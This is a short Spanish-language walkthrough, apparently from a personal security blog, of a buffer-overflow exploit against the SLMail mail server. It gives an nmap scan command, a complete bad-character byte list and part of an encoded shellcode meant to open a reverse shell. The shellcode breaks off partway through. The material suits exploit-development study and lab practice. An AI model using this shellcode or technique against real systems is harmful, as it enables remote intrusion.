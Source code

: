 ### Enumeración

Mediante `nmap -sS --min-rate 5000 --open -vvv -n -Pn` obtendremos los resultados del escaneo.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/nmap.png" alt="bof" width="1800" oncontextmenu="return false;">
</div>

### Badchars

Son necesarios para evitar conflictos al momento de crear nuestra shellcode y que el registro ESP pueda interpretar nuestro código y proporcionarnos nuestra reverse Shell, o el comando que queramos inyectar en el sistema.

```c
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
### Shellcode
```c
"\xda\xd7\xd9\x74\x24\xf4\xbf\xe4\x1f\x0e\x1c\x5a\x31\xc9"
"\xb1\x52\x83\xc2\x04\x31\x7a\x13\x03\x9e\x0c\xec\xe9\xa2"
"\xdb\x72\x11\x5a\x1c\x13\x9b\xbf\x2d\x13\xff\xb4\x1e\xa3"
"\x8b\x98\x92\x48\xd9\x08\x20\x3c\xf6\x3f\x81\x8b\x20\x0e"
"\x12\xa7\x11\x11\x90\xba\x45\xf1\xa9\x74\x98\xf0\xee\x69"
"\x51\xa0\xa7\xe6\xc4\x54\xc3\xb3\xd4\xdf\x9f\x52\x5d\x3c"
```